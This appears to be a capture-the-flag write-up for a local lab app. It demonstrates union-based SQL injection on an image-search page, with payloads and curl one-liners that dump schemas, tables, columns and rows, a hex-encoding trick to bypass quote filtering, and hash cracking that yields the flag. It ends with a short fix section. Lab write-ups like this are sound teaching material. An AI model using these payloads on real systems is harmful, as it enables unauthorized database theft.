 # Union Based SQL Injection in search image page

## 📖 Vulnerability Explanation
The server uses the URL parameter _id_ to query the database. The input is provided by the user and not sanitized, leading to a potential abuse where SQL statements can be injected to retrieve information (SQLi). 

## ⚙️ Exploitation Process
The methodology we used in this exercise first focuses on gaining situational awareness of the database, and then proceeds to retrieve information.

We decided to present two different methods: one using the input box on the webpage, and the other using ```curl``` in the terminal.

---

**1. Dump databases**

```
0 UNION SELECT 1,schema_name FROM information_schema.schemata; -- -
```

```
curl -s 'http://localhost:9090/index.php?page=searchimg&id=0+UNION+SELECT+1%2Cschema_name+FROM+information_schema.schemata%3B+--+-&Submit=Submit#' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.*<br\/>Title: //' | sed 's/<br\/>.*//'
```

---

**2. Dump tables**

```
0 UNION SELECT table_name,table_schema FROM information_schema.tables; -- -
```

```
curl -s 'http://localhost:9090/index.php?page=searchimg&id=0+UNION+SELECT+table_name%2Ctable_schema+FROM+information_schema.tables%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/Title: /\n[+] Database   : /' | sed 's/Url : /[-] Table name : /' | grep -v table
```

---

**3. Dump columns of table _list\_images_**

We use the hexadecimal representation of the string _"list_images"_ to bypass the blocked characters, which are single and double quotes.

```
echo -n 'list_images' | xxd -p
```

```
0 UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name=0x6c6973745f696d61676573; -- -
```

```
curl -s 'http://localhost:9090/index.php?page=searchimg&id=0+UNION+SELECT+1%2Ccolumn_name+FROM+information_schema.columns+WHERE+table_name%3D0x6c6973745f696d61676573%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/Title: //' | grep -v 'Url : '
```

---

**4. Read columns _title_ and _comment_**

```
0 UNION SELECT title,comment FROM Member_images.list_images; -- -
```

```
curl -s 'http://localhost:9090/index.php?page=searchimg&id=0+UNION+SELECT+title%2Ccomment+FROM+Member_images.list_images%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/Title: /\n[+] Title   : /' | sed 's/Url : /[-] Comment : /' | grep -v table
```

---

**5. Crack the hash and craft the flag using the steps provided**

To craft the flag, we must follow the instructions found on the last step: _```If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46```_

![](./CrackStation.png)

```
echo -n 'albatroz' | sha256sum
```

## 🧰 Additional Resources Used
We used ```https://crackstation.net/``` to crack the hash. This page doesn't really _crack_ the hash you provide, but performs a lookup on pre-computed hashes instead.

## 🔧 Fix
To protect against SQLi, it is crutial to always sanitize the users' input before querying the database. It is also possible to use an ORM or library to query the database and avoid manual sanitization.

## ☝️🤓 Advanced explanation
While these SQLi allowed us to read most of the data present in the database, we could not read everything. After trying to read the database _Member\_Brute\_Force_, we got an error as the account used by the app on these pages did not have access to it.